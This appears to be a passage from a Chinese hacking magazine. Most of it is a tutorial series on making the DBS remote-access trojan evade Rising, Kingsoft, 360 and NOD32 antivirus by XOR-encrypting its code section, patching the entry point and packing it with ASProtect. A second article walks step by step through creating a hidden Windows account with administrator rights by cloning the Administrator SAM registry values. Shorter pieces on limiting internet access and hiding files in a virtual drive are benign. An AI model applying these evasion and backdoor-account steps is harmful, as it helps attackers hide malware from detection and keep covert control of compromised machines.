





CODE 段免杀，依次类推，也占不了多少体积，如图10。做好备份很重要，如果在第 X 步完成后出了问题，可以很快找到是哪个环节出了问题并修正。







现在我们拖入 LoadPE，发现入口点又变回原始入口点了；我们要经常检查这些错误，否则程序是跑不起来的。现在把入口点改回 0005FDC7，点【保存】，再【确定】。同时还要去看看区段是否可写，不过区段属性没有变，倒是这个入口点变了。现在用 DBS 生成一个本地来看看效果，如图9，成功上线。

这个原理大家消化一下，简单来说就是在 OD 里面先给它的代码变了一次，然后把变了之后的程序保存，等到第二次运行的时候，同样是先执行那部分“加密代码”，但第二次运行就相当于解密了，所以以往的几百条特征码统统都是浮云。有点像“做贼喊捉贼”，我们不是喊，我们是把它加密，并且解密。







这个时候我建议大家把刚刚给 CODE 段免杀的 data.file 复制一份放到文件夹下，取名 code.file，表示这个文件已做。

用 RISING 已经查不出来了（图11），现在我们来看看主动。我刚才配置的是 ActiveX 插件进程启动（图12），由于要进行免杀工作，就不加 UPX 壳了，而且我们把 CODE 代码给加密了，UPX 也压缩不了多少。现在开瑞星主动，看看什么情况（图13），还是被拦截了，因为程序在做敏感的操作。现在我来勾选“不安装直接运行”（图14）……

插入，来看看效果如何（图15）：这下就乖乖地上线了，其实如果你说做个批处理什么的把它加到注册表或者启动文件夹里面也是没什么希望，为什么？因为只要不是你鼠标在操作，杀软就会把你盯得紧紧的，所以如果想要绕过主动防御，能模拟鼠标操作的话是一个可行的方向，我的编程不咋地，这就留给有技术的小牛和大牛去做了，我是个小白，正在努力向上攀爬中！

本章节到此结束，下一章将免杀金山 2011 和金山卫士，非常简单，所以会连着 NOD32 的一起来做。大家多多支持 vflanker 的教程！

### vflanker免杀（三）

——金山卫士你不行！

今天的教程接着系列（二）杀免杀 DBS。我直接用上节课免杀的上线地址 127.0.0.1 的 DBS 服务端给金山 2012 杀一下，结果出来了，如图1：


直接就过了，那么把金山卫士开了运行一下试试？如图2：


金山就直接秒过了。但之前被杀过一次，杀的是 127.0.0.1 的上线地址，改了自己的 3322 域名就 OK 了，现在连 127 也不杀了。金山只要把代码段按上节课异或加密后就直接秒掉了。其实我也挺纳闷的：俺们学校本来电脑装的都是 360，后来全换成了金山~~我现在拿到物理机用 360 安全卫士自带的防御 CHECK 一下，保证马上拦掉。如图3、4：


奇了怪了竟然没拦截也没有杀，我本机没有装 360SD，如果用 SD 肯定能把它 K 掉，除非 DBS 进白名单了。360 的免杀暂且不说，现在我们去免杀 NOD32——作为我来说，免杀 360 还是有困难。


去 NOD32 快照……

在去 NOD32 快照的时间里，我把刚才的服务端装成自解压文件又运行了 N 次，结果还是没杀，因为我认为刚才是鼠标事件所以 360 才放过，后来证实了不是，的的确确过了 360 安全卫士，病毒库版本是 1 月 5 号早上的，今天是 7 号，影响不大。好了，NOD32 快照准备好了，同样要先更新好病毒库然后断了虚拟机的网进行免杀。

刚把文件拖入虚拟机，因为文件从物理机复制到虚拟机首先是要经过虚拟机里面的一个文件夹转储才能到虚拟机，所以我刚拖进去就被 NOD32 杀掉了，还没到桌面就 KA 掉，在临时转储文件夹里就被 KA 掉了，如图5、6。

要不要共享出来了，我随便拿了一个壳试了一下（先不说什么壳），运行报错：（图7）改了一下配置就不报错了，顺利上线且 NOD32 防护和查杀都很乖，一动不动。根据这个壳的原理，加壳后体积翻了一倍，可以联想到 N 年前用“一步江湖 EXE 文件伪装器”免杀表面查杀的方法，我还记得我把一个 700KB 的灰鸽子服务端加到一个迅雷安装程序 17MB 左右的大小就过了 360，那时候主动还没有兴趣，一下子就过了。当然这个壳用的不是这个原理，是联想到的。


图5


图8


图6

我们还是用 ASProtect 这个壳吧，听得也多，过 NOD32 还可以的。到光盘里面解压出来，运行 ASProtect_Debug.exe，这是 tEA 制作的。打开后我们填写好信息，我就直接上一张图了。如图8、9；


图7


图9

在虚拟机里面用老方法试了一试，用反调试代码过 NOD32 的方法不奏效了，需要另辟捷径。捷径？加壳啊，加冷门、强壳，去看看搜搜或者下载某个论坛的工具包一大片。我这里仍然是用 HACKFANS 的 2010 工具包，两周年了，仍然有效，所以 HACKFANS 说它牛不是说出来的，人家是有实力，这个工具包是论坛会员都可以下载，Superman 收集得可辛苦，我也不知道。

记得一定要有一个“Modes”——模式。然后转到【Protection】点左下角的【Protect】按钮即可保护文件。本来还以为 ASP 是个常见壳很容易被 kill，哪知道竟然过了。（图10）

到现在 NOD32 也被免杀掉了，本节课任务完成。本系列免杀教程至此已终，如有疑问可到黑大战找我，ID:vflanker 或邮箱：

vflanker@163.com 给我发邮件。2012 新的一年，祝大家身体健康、万事如意，找到自己人生的方向。


图10

可选（作为倒数第二段）：一开始并不知道反调试的方法已经过时，加壳是迫不得已，但加壳也可以免杀成功，只要多尝试，IMPossible 也可变为 I’M Possible！很多时候看到以前的论坛群七八个小说说要买免杀鸽子，我 Q 它们说：“WHAT YOU LEARN IS WHAT YOU NEED REALITY.”意思是：你学到的才是你的。回复有三种情况：

- A. 什么意思？
- B. 可是我急着要……
- C. 我不会。

针对 A 回复：一句简单的宾语从句都看不懂，可以透露出该白莱文化水平不怎么高，或者没有怎么努力过和不能坚定不移地做某些事情。英语是世界上最简单的语言，汉语是世界上最复杂的语言之一，因为汉语是母语所以自然就会；那么英语呢？玩这行无论职业性还是业余性，多少要会点英语吧？给个英文的软件给你就不会用，要等汉化版本吗？就比如这节课的 ASP 壳就是一个，造成看不懂英语的原因：不想上学，耐不住寂寞。真是傻，没有什么比上学更美好了，建立在有奋斗过的基础上。学习中你拼搏了、超越了，所以获得的快乐只有自己知道，何况这个社会需要的就是有文化的人才，不是大学生就 OK 了。因为不想上学而又玩上了“黑客”，只能说明是这个人自己堕落了，自己把自己埋了。

针对 B 回复：就是那句话，学到的才是自己的，要学还是力荐 VC 或 Delphi，没有基础什么都是纸上谈兵——学编程不是为了编木马病毒或恶意程序，而在于培养自己一个有层次有逻辑的头脑，至于现在满网络上的远控或所有软件都是编程软件弄出来的，那是后期的事了，事物的好坏看它的操作者，有其主必有其物，作者的性格和编造出来的软件性质脱不了干系。

针对 C 回复：一句话，不会就去学，小学老师给你讲讲“不劳而获”是什么概念。

### 在Windows XP中巧妙掌控上网权限

郭建伟

我们知道，在 Windows XP 中可以建立多个账户，在默认情况下，所有的账户都可正常连接因特网。有时出于安全性的考虑，我们常常希望只有管理员权限的用户才上网，而禁止普通用户上网。那么该如何实现上述功能呢？本文就深入地探讨解决方法。假设本机的 IP 为 192.168.0.2，路由器网关的 IP 为 192.168.0.1，管理员名称为“lysofter”，普通用户名称为“user”，通过以下两种方法即可实现“lysofter”用户上网，而“user”用户无法上网。

#### 通过NetSh命令控制网关

Netsh 是 Windows 2000/XP/2003 自身提供的实用工具，允许用户在本地或远程显示和修改当前系统的网络配置信息。这里就使用该命令并配合相关的组策略，让管理员账户可以拥有正确的网关配置，而让普通用户无法得到，因此巧妙地阻止普通用户连接因特网。首先以“lysofter”用户身份登录系统，建立“Linkok.bat”和“Linkno.bat”两个批处理文件，其中“Linkok.bat”的内容为“netsh interface ip set address "本地连接" source=static addr=192.168.0.2 mask=255.255.255.0 gateway=192.168.0.1 gwmetric=1”，“Linkno.bat”的内容为“netsh interface ip set address "本地连接" source=static addr=192.168.0.2 mask=255.255.255.0 gateway=none”。之后在“开始”→“运行”中执行“gpedit.msc”程序，在组策略窗口左侧展开“用户配置”→“Windows设置”→“脚本（登录/注销）”，在右侧窗口中双击“登录”项，在登录属性窗口中点击“添加”按钮，在添加脚本窗口中的“脚本名”栏中输入“Linkok.bat”文件的完整路径即可。在右侧窗口中双击“注销”项，按照同样的方法，将“Linkno.bat”文件添加到注销脚本中。这样，当“lysofter”用户登录系统时，就会自动执行“Linkok.bat”程序，将网关配置为正确信息；当注销“lysofter”用户时，就自动执行“Linkno.bat”程序，从而清空网关的配置信息。然而当“user”用户登录系统时，虽然也可以运行以上登录脚本，但是普通用户是没有权限执行 NetSh 命令的，因此普通用户就无法得到正确的网关配置，也就无法正常上网了。即使普通用户在本地连接属性窗口中试图修改网络配置信息，系统也会弹出权限不够的提示，从而禁止其手工配置网关信息。

#### 巧用IE的代理功能

我们知道，IE 是可以使用代理服务器上网的，因此只要将其代理服务器指向“127.0.0.1”地址，那么普通用户就无法通过 IE 浏览网页了。首先使用“lysofter”用户登录系统，在组策略管理器中展开“用户配置”→“Windows设置”→“Internet Explorer 维护”→“连接”分支，在右侧窗口中双击“代理设置”项，在弹出窗口中勾选“启用代理服务器设置”项，将“HTTP”的代理服务器地址设为“127.0.0.1”，点击确定按钮保存即可。这样，当在 IE 中浏览网页时，因为其代理服务器实际上并不存在，因此就无法访问因特网了。那么问题的关键在于如何让管理员用户可以跳过上述限制，从而正常使用 IE 访问因特网呢？实际上，打开“C:\WINDOWS\system32\GroupPolicy\User\MICROSOFT\IEAK”文件夹，在其中可以看到名称为“install.ins”的文件，在该文件中就包含了 IE 的代理服务器信息。打开该文件，其中的“Proxy_Enable”参数的数值为 1，表示启用了代理服务器，其中的“HTTP_Proxy_Server”参数就指明了代理地址。因此，如果“lysofter”用户不读取“install.ins”文件，就可以“跳过”IE 的代理服务器配置。而组策略中的“用户配置”部分中的配置项大多都是在登录后才生效的，因此，只要使用 NTFS 分区的权限分配机制，让“lysofter”用户无法读取“install.ins”文件，即可实现上述要求。在“install.ins”文件的属性窗口的“安全”面板中选中“lysofter”用户，如果不存在的话，可以点击“添加”按钮导入该用户。之后在其下的权限设置面板中的“读取”栏中勾选“拒绝”项，即可禁止“lysofter”用户读取该文件了。这样，当再次使用“lysofter”用户登录系统时，果然不再读取“install.ins”文件，从而跳过了 IE 的代理服务器配置。但是普通用户却没有此“特权”，依然正常加载 IE 代理服务信息，当然无法正常使用 IE 了。

## 在Windows中快速建立“隐形”帐户

郭建伟

Windows XP 具有强大的用户管理能力。当在建立新的帐户时，不仅在系统的用户管理窗口能看到所有的帐户名称，而且在 Windows XP 登录界面中也会将可用的帐户名逐一列出。有时出于安全方面的考虑，希望在 Windows XP 中建立“隐形”的帐户信息。这样您能够利用“隐形”的帐户自由地登录系统，而其他用户却无法探知“隐形”帐户的存在，从而巧妙地提高了系统的安全性。

首先以具有 Administrator 权限的帐户名登录 Windows XP（假设当前帐户名为“kin”），在 CMD 窗口中执行命令“net user lysofter$ 123456 /add”，这样就建立了一个名为“lysofter$”的帐户，在帐户名后面加上“$”符号，表示该帐户具有“隐藏”属性。在 CMD 窗口运行“net user”命令，在显示的用户列表中看不到该帐户名。当然这仅仅是初级的隐藏方式，在“开始”→“运行”中执行“lusrmgr.msc”命令，在“本地用户和组”窗口中仍然可以看到这个名为“lysofter$”的帐户名。在“开始”→“运行”中执行“regedt32.exe”命令，打开注册表编辑器。值得注意的是，和运行“regedit.exe”不同，该注册表编辑器具有键值权限设置功能。依次选中注册表分支“HKEY_LOCAL_MACHINE\SAM\SAM”，可以看到右侧窗口中没有任何显示内容，这说明没有为当前帐户开启使用安全帐户管理器的权限。点击菜单“编辑”→“权限”，在“SAM 的权限”窗口中点击“添加”按钮，打开“选择用户或组”对话框，输入


图1

### 菜鸟学堂

当前账户的名称，也可以点击“高级”按钮，在扩展窗口中点击“立即查找”按钮，在查找结果列表中选择当前账户名，之后返回“SAM的权限”窗口。在“组和用户名称”面板中选中当前用户名，在下面的权限设置面板中“允许”列中勾选“完全控制”和“读取”项（如图1）。这样，当前用户就具有了使用安全账户管理器的权限。之后重新运行“regedit.exe”，再次展开注册表路径“HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names”，在其下的分支中就列出系统中的所有账户名称（如图2）。选中其中一个账户名，例如选中“Administrator”账户，在右侧窗口的“类型”列中显示“0x1f4”，不同的账户名其类型是不一样的。选中刚才建立的“lysofter$”账户，其对应的类型是“0x3ed”。在“HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users”分支中分别列出不同账户的类型值。选中其中的名称为“000001F4”主键名，也就是“Administrator”账户对应的类型。点击菜单“文件”→“导出”，将其导出为单独的Reg文件，这里假设为“Chaoji.reg”；在同一分支下选中“lysofter$”对应的主键名“000003ED”，点击菜单“文件”→“导出”，也将其导出为单独的Reg文件，这里假设为“lysofter.reg”。然后再将“HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\lysofter$”分支导出，假设导出的文件名为“lysofter_name”。

用记事本打开导出的“Chaoji.reg”，可以看到其中包含“F”和“V”两大部分，将其中“F”部分中的数据全部选中（如图3），按下“Ctrl+C”执行复制操作。然后用记事本打开“lysofter.reg”文件，可以看到结构和“Chaoji.reg”完全相同。按照同样的方法选中“F”部分中的全部数据，按下“Ctrl+V”键，就将“Chaoji.reg”中的“F”部分中的数据完整取代了“lysofter.reg”对应部分的数据。也就是说，用“Administrator”账户的特殊标识信息覆盖了“lysofter$”账户对应的标识信息，这样，“lysofter$”账户就具有了和“Administrator”账户相同的权限属性。之后保存“lysofter.reg”文件。打开CMD窗口，运行命令“net user lysofter$ /del”，删除刚才建立的“lysofter$”账户。

之后将“lysofter.reg”和“lysofter_name”文件进行合并，合并的方法很简单：用记事本打开“lysofter.reg”文件，将除了顶行的“Windows Registry Editor Version 5.00”之外的所有数据整体复制下来，然后将其粘贴在“lysofter_name”文件的尾部即可（如图4）。之后双击合并后的“lysofter_name”文件，将其导入到注册表中即可。上述操作完成后，在CMD窗口中执行命令“net user”，在显示的用户列表中没有发现“lysofter$”账户；运行“lusrmgr.msc”打开“本地用户和组”窗口，仍然无法发现“lysofter$”账户。这样，“lysofter$”账户就彻底变成了“隐形”账户了。运行“Regedt32.exe”程序，在注册表管理器中依次选中分支“HKEY_LOCAL_MACHINE\SAM\SAM”，点击菜单“编辑”→“权限”，在“SAM的权限”窗口中选中当前账户“kln”，取消其对当前主键的“完全控制”和“读取”权限。同时点击“删除”按钮，将该账户从“组或用户名称”面板中删除，从而恢复安全账户管理器的原始状态。

重新启动电脑，在Windows XP的登录界面就不会显示“lysofter$”账户名了。在Windows XP登录界面中双击“Ctrl+Alt+Delete”键，打开传统登录对话框，输入“lysofter$”账户和对应的密码，就可以登录Windows XP了，并且该“lysofter$”账户拥有和“Administrator”账户同样的权限。值得注意的是，该“隐形”账户不能随意更改密码，否则就将失去其隐藏属性。上述建立隐藏账户的方法同样适用于Windows 2000/2003系统。

### 巧解易语言中运用批处理指令

千寻乱马（马菊）

近来无事，看着黑X玩电脑，看见一篇有关虚拟盘符的小文章，就有了兴趣想试一试，代码如下：

```bat
@echo off
md d:\recycled\udrives.{25336920-03f9-11cf-8fd0-00aa00686f13}>nul
if exist z:\nul goto delete
subst z: d:\recycled\udrives.{25336920-03f9-11cf-8fd0-00aa00686f13}
start z:\
goto end
:delete
subst /d z:
:end
```

下面是注释：第一行、第二行批处理脚本的含义是：关闭回显并且在“d:\recycled\”目录下新建一个“udrives.{25336920-03f9-11cf-8fd0-00aa00686f13}”文件夹。第三行至第八行的含义是：先判断在“我的电脑”窗口中是否有一个名为Z:的虚拟磁盘，有的话则删除；反之则将 d:\recycled\udrives.{25336920-03f9-11cf-8fd0-00aa00686f13} 文件夹虚拟为Z:并打开它。最后一行则是退出命令提示符窗口。

下面是使用说明：我们双击刚才创建的“虚拟盘.BAT”文件，“我的电脑”就会出现一个虚拟盘并打开。我们将重要文件存放到虚拟盘之后，对电脑进行“注销”一下，然后启动电脑，就会发现已经看不到刚才的虚拟盘了。这样我们的文件也就保护起来了，当然虚拟盘里的文件是不会被删除的。

虚拟盘上的文件实际上是存放在 d:\recycled\udrives.{25336920-03f9-11cf-8fd0-00aa00686f13} 这个文件夹中。不过，不用紧张，即使在“文件夹查看”选项中设置为显示所有文件，“udrives.{25336920-03f9-11cf-8fd0-00aa00686f13}”文件夹下的内容也是无法看到的，当然就不能通过清空回收站的方法将这个文件夹及该文件夹下保存的文件删除了。

备注：如果要查看打开被隐藏的文件，可以通过在DOS命令提示符下查看，或者是双击上面创建的“虚拟盘.BAT”文件。

很好用，如图1，我们可以放自己的小秘密。于是身为小菜的我觉得黑漆漆的CMD不好看，为什么不做一款小程序呢，发布到互联网上，既美观，又满足了我们的虚荣心。

